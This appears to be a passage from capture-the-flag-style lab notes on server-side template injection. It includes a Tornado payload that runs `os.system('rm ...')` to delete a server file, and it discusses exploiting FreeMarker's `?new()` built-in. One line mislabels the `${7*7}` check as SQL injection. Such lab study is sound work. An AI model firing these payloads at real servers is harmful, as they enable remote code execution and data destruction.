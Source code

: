 Escape out of the expression using `blog-post-author-display=user.name}}{{7*7}}` and on reloading it shows all the usernames i.e. `Peter Wiener49}}` 

Now to run Python, use the syntax `{{% some python code %}}`
```python
import os
os.system('rm /home/carlos/morale.txt')
```

Now the final payload that goes into the parameter goes like `blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')`.
### Server-side template injection using documentation
This lab uses the syntax `${something}` so we try `${7*7}` and that confirms the SQL Injection.

The `new()` built-in function in FreeMarker is particularly noteworthy for security reasons. This function allows templates to instantiate Java classes directly using syntax like `"com.example.SomeClass"?new()`. While this capability is useful for Freemarker Template libraries with Java implementations, it presents significant security risks:

1. Though `new()` is meant to only instantiate classes that implement `TemplateModel`, FreeMarker contains built-in `TemplateModel` classes that could be leveraged to create arbitrary Java objects.
2. Even for classes that don't implement `TemplateModel`, their static initialization code would still run, potentially causing security issues.
3. Malicious templates could use this functionality to instantiate dangerous classes that exist in your application's classpath.

FreeMarker is one of the most popular Java template languages, and the language I've seen exposed to users most frequently. This makes it surprising that the official website explains the dangers of allowing user-supplied templates:

> 23. Can I allow users to upload templates and what are the security implications?
> 
> In general you shouldn't allow that, unless those users are system administrators or other trusted personnel. Consider templates as part of the source code just like *.java files are. If you still want to allow users to upload templates, here are what to consider:
> 
> - http://freemarker.org/docs/app_faq.html#faq_template_uploading_security

Buried behind some lesser risks like Denial of Service, we find this:

The `new` built-in (`Configuration.setNewBuiltinClassResolver`, `Environment.setNewBuiltinClassResolver`): It's used in templates like `"com.example.SomeClass"?new()`, and is important for FTL libraries that are partially implemented in Java, but shouldn't be needed in normal templates. While new will not instantiate classes that are not `TemplateModel`-s, FreeMarker contains a `TemplateModel` class that can be used to create arbitrary Java objects. Other "dangerous" `TemplateModel`-s can exist in you class-path. Plus, even if a class doesn't implement `TemplateModel`, its static initialization will be run. To avoid these, you should use a `TemplateClassResolver` that restricts the accessible classes (possibly based on which template asks for them), such as `TemplateClassResolver.ALLOWS_NOTHING_RESOLVER`.

This warning is slightly cryptic, but it does suggest that the `new` builtin may offer a promising avenue of exploitation. Let's have a look at the documentation on `new`:

> This built-in can be a security concern because the template author can create arbitrary Java objects and then use them, as far as they implement TemplateModel. Also the template author can trigger static initialization for classes that don't even implement TemplateModel. [snip] If you are allowing not-so-much-trusted users to upload templates then you should definitely look into this topic.
> 
> - http://freemarker.org/docs/ref_builtins_expert.html#ref_builtin_new
